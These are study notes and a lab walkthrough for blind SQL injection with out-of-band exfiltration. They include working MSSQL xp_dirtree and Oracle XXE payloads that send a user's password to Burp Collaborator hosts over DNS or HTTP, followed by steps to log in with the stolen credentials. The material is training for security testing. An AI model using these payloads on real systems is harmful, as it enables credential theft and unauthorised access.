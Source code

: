 
Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application.
```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```
- This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup.

**This will result in a DNS lookup like the following, allowing you to view the captured password:**
```sql
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

- Out-of-band ([[Out-of-band application security testing (OAST)]] techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel.
- For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

**For more info** --> [[SQL injection cheat sheet]]
## Steps to solve lab
### Desc - Blind SQL injection with out-of-band data exfiltration
**Our end goal** - To solve the lab, log in as the `administrator` user.

1. First send the `/` to Burp Repeater and analyse the `TrackingId`.
![[Blind_SQL_injection_with_out-of-band_data_exfiltration2.png]]

2. Now, place the below command with `TrackingId`.
**Command** - 
```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.qoiia0mwf6mzqw3fsx5cplgw1n7ev6jv.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

**In burp** - 
![[Blind_SQL_injection_with_out-of-band_data_exfiltration3.png]]
Make sure before sending this you need to url encode it with `Ctrl + U`.

3. Now, navigate to Collaborator tab and click on poll now.
![[Blind_SQL_injection_with_out-of-band_data_exfiltration4.png]]

4. Now, login with these credentials. 
![[Blind_SQL_injection_with_out-of-band_data_exfiltration1.png]]